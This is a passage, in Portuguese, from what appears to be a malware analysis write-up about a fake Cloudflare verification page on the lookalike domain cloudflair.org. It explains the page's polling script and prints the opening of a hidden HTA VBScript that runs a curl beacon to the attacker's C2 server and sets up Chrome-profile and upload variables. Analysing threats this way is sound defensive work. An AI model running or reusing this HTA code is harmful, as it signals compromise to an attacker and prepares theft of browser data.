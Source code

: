 Não entendo muito de Javascript, então pedi a IA para me explicar o que representa esse script.

O script contém duas partes distintas.

Primeira parte (`checkExecution`):

- Cria uma função `checkExecution()` que faz uma requisição para "hxxps://upload[.]cloudflair.org/checkbeacon".
- Esta função verifica periodicamente (a cada 2 segundos) se alguma ação foi executada com sucesso.
- Quando a resposta do servidor indica `data.executed` como verdadeiro:
  - Para o intervalo de verificações.
  - Oculta elementos da interface chamados "`iframe-challange`" e "`ver`".
  - Exibe um elemento chamado "`challenge-success-text`".

Em resumo, esta parte está verificando periodicamente se um desafio de segurança foi concluído com sucesso.

Segunda parte (personalização da página):

- Obtém o nome de domínio atual do navegador (ou usa "localhost" como fallback).
- Atualiza elementos na página com este nome de domínio:
  - Define o texto de um elemento com ID "`domain-title`".
  - Atualiza um elemento com ID "`faCCe3`" para mostrar uma mensagem sobre verificação de segurança.
  - Altera o título da página para "Just a moment - [nome do domínio]".

Se ele deveria alterar alguma coisa, para simular que a validação funcionou, então o código não funcionou 🤣.

## 3. Da análise de execução

Quando fazemos um `curl` para o arquivo `bb.hta`, o que temos é o seguinte:

```sh
#curl hxxps://cloudflair[.]org/bb.hta
<html>
<head>
  <title>Verification</title>
  <HTA:APPLICATION
    ID="Verification"
    BORDER="none"
    BORDERSTYLE="none"
    CAPTION="no"
    SHOWINTASKBAR="no"
    SINGLEINSTANCE="yes"
    WINDOWSTATE="minimize"
  />
  <script language="VBScript">

    Option Explicit

    Dim shell, fso, appData, targetDir, scriptPath, tempZip, userProfile
    Dim chromeRoot, profileDirs, folder, uploadUrl, tempCopyDir


    Sub Window_OnLoad

        Dim beaconUrl
        beaconUrl = "https://upload.cloudflair.org/beacon"
        Set shell = CreateObject("WScript.Shell")
        shell.Run "cmd /c curl " & beaconUrl, 0, True

        On Error Resume Next
        window.style.display = "none"
        window.resizeTo 0,0
        window.moveTo -1000,-1000
        Set fso = CreateObject("Scripting.FileSystemObject")

```

[^1]: Em um contexto de malware ou C2 (Command & Control), um `beacon` é uma comunicação feita por uma máquina comprometida para o servidor do atacante, com o objetivo de sinalizar que está ativa ou como um "sinal de vida (Healthy)", para confirmar que a infecção foi bem-sucedida. Além de confirmar a presença do malware, ele pode enviar informações básicas do sistema e aguardar comandos. No nosso caso, o `beacon` é enviado quando o script executa um `curl` para o C2 hxxps://upload[.]cloudflair.org/beacon, funcionando como um "check-in" inicial informando que o malware foi ativado/executado com sucesso.